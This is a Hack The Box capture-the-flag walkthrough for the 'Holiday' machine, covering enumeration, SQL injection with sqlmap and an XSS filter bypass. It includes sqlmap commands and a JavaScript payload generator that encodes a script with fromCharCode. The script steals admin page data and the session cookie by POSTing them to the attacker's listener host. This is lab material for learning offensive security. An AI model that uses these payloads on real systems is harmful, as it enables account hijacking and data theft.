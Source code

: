 # Holiday -- hack the box

## Introduction

Target: 10.10.10.25(Linux)

Kali: 10.10.16.65

Holiday is a insane box officially. It's really difficult to get the user permission. The most difficult part should be how to pass xss filter. It may need a lot of time. And the root privesc is based on the exploitation of npm install which is relatively fresh.

## Information enumeration

As usual, use nmap to detect open ports and related services: `nmap -A 10.10.10.25`:

```
Starting Nmap 7.70 ( https://nmap.org ) at 2019-05-19 09:49 GMT
Nmap scan report for htb.holiday (10.10.10.25)
Host is up (0.67s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c3:aa:3d:bd:0e:01:46:c9:6b:46:73:f3:d1:ba:ce:f2 (RSA)
|   256 b5:67:f5:eb:8d:11:e9:0f:dd:f4:52:25:9f:b1:2f:23 (ECDSA)
|_  256 79:e9:78:96:c5:a8:f4:02:83:90:58:3f:e5:8d:fa:98 (ED25519)
8000/tcp open  http    Node.js Express framework
|_http-title: Error
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.70%E=4%D=5/19%OT=22%CT=1%CU=38324%PV=Y%DS=2%DC=T%G=Y%TM=5CE126E
OS:C%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=107%TI=Z%CI=I%II=I%TS=8)OPS
OS:(O1=M54BST11NW7%O2=M54BST11NW7%O3=M54BNNT11NW7%O4=M54BST11NW7%O5=M54BST1
OS:1NW7%O6=M54BST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN
OS:(R=Y%DF=Y%T=40%W=7210%O=M54BNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 111/tcp)
HOP RTT       ADDRESS
1   630.30 ms 10.10.16.1
2   322.47 ms htb.holiday (10.10.10.25)
```

There are only two ports open. The port 8000 is a HTTP service which is hosted by Express. It should be our breakthrough.

## Exploitaion

Access to `http://10.10.10.25:8000`, there is nothing except a image. Download the image, and try to see more information about the image with exiftoo. Nothing interesting found.

[![EjY0mV.png](https://s2.ax1x.com/2019/05/19/EjY0mV.png)](https://imgchr.com/i/EjY0mV)

Then try to brute force the direcory. Gobuster and dirbuster seem not to be very useful for this box. If you try dirb, you will soon find some important directories, including: admin, login. Try to access `http://10.10.10.25:8000/login`. It is a login web page. Try to login with some default credentials. Not work. Then use burp to save the login request to a file.

```
POST /login HTTP/1.1
Host: 10.10.10.25:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.25:8000/login
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Connection: close
Upgrade-Insecure-Requests: 1

username=admin&password=admin
```

### Sqlmap

Try to use sqlmap to brute force the login request. Due to the awful network or something, sqlmap is slow for me to use for the boxed in hack the box. So try to prefer get some important inpotant information instead of dump all information in sqlmap. For example, obtain tables firstly. Then dig into the interesting table.

```
sqlmap -r sql.req --level=5 --risk=3 --tables --threads=5
```

[![Ejdcss.md.png](https://s2.ax1x.com/2019/05/19/Ejdcss.md.png)](https://imgchr.com/i/Ejdcss)

By sqlmap, it seems that the database is SQLite and there are 5 tables. The `users` table is interesting. There may are some valid user and password. 

```
sqlmap -r sql.req --level=5 --risk=4 -T users --threads=10
```

![Ej4acR.png](https://s2.ax1x.com/2019/05/19/Ej4acR.png)

A user is found. [Hashkiller](https://hashkiller.co.uk/Cracker) is a wonderful hash crack online tool. The hash can be cracked easily.

![Ej464e.png](https://s2.ax1x.com/2019/05/19/Ej464e.png)

Login with this user. It seems to be a booking website.

![Ej4Lgs.png](https://s2.ax1x.com/2019/05/19/Ej4Lgs.png)

Click any booking and see the booking details. It consits of two tabs, including View and Notes. In the Notes, one word is interesting: "All notes must be approved by an administrator - this process can take up to 1 minute." Administrator is always attractive to hackers. It seems that the note will be approved by administrator. So it's possible to steal the session cokie of administrator if there is a xss vulnerability in the note edit form. I think it's the hardest part of this box. It's not easy to find the approprivate pass way. There is a way to utilize `fromCharCode` and other skills to pass the xss filter. The following javascript code is utilized to generate the payload:

```javascript
var url = 'http://localhost:8000/vac/8dd841ff-3f44-4f2b-9324-9a833e2c6b65';
var str = `$.ajax({method:'GET',url:'${url}',success:function(data){$.post('http://10.10.16.65',data)}})`;
console.log(str);
result = "";
for (var i = 0; i < str.length; i++) {
  result += str.charCodeAt(i) + ',';
}
result = result.substr(0, result.length - 1);
console.log(result);
var payload = `<img src="x/><script>eval(String.fromCharCode(${result}));</script>">`;
console.log(payload);
```
![Ejv2od.png](https://s2.ax1x.com/2019/05/19/Ejv2od.png)

Set kali listen to port 80: `nc -lvnp 80`. The code can be run in the chrome dev. Input the generated payload into the note, wait a minute the data will be sent to kali. 

![Ej5nUO.png](https://s2.ax1x.com/2019/05/19/Ej5nUO.png)

![EjjOxK.png](https://s2.ax1x.com/2019/05/19/EjjOxK.png)

admin cookie

![Ej4oE8.png](https://s2.ax1x.com/2019/05/19/Ej4oE8.png)


https://www.ipaddressguide.com/ip
